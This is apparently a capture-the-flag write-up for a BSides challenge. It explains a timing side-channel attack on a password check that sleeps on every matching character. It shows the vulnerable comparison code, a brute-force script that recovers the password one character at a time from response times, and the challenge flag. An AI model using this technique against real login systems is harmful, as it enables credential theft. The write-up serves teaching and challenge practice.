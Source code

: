 # Writeup

After submitting our password the server compares it using the following source code:
```python
# Efficient string compare algorithm.
def strcmp(a, b):
    if len(a) != len(b):
        return False

    for (a_ch, b_ch) in zip(a, b):
        sleep(0.01)

        if a_ch != b_ch:
            return False

    return True
```

If the length of the submitted string matches the password, it compares the characters one by one.
This comparison takes at least 0.01 seconds for every character due to sleep. This is a very simple example for time-based side-channel attacks. The server is kind enough to measure time for us, so we don't have to account for the latency.

Let's write our exploit script.

```python
alphabet = string.ascii_lowercase + string.digits + "{}_"
password = ""
last_time = 0.01
i = 0

length = guess_length()

while not password.endswith("}"):
    attempt = alphabet[i]
    padding = (length - len(password) - 1) * "A"
    attempt_time = try_password(password + attempt + padding)

    if attempt_time - last_time > 0.005:
        password += attempt
        last_time = attempt_time

        log.info(f"New char! {password}")

    i += 1
    i %= len(alphabet)
```

We start by guessing the length and then brute-forcing the characters one by one.

[Full solve script](sol.py)

Flag: `BSIDES{t1m3_m4g1c}`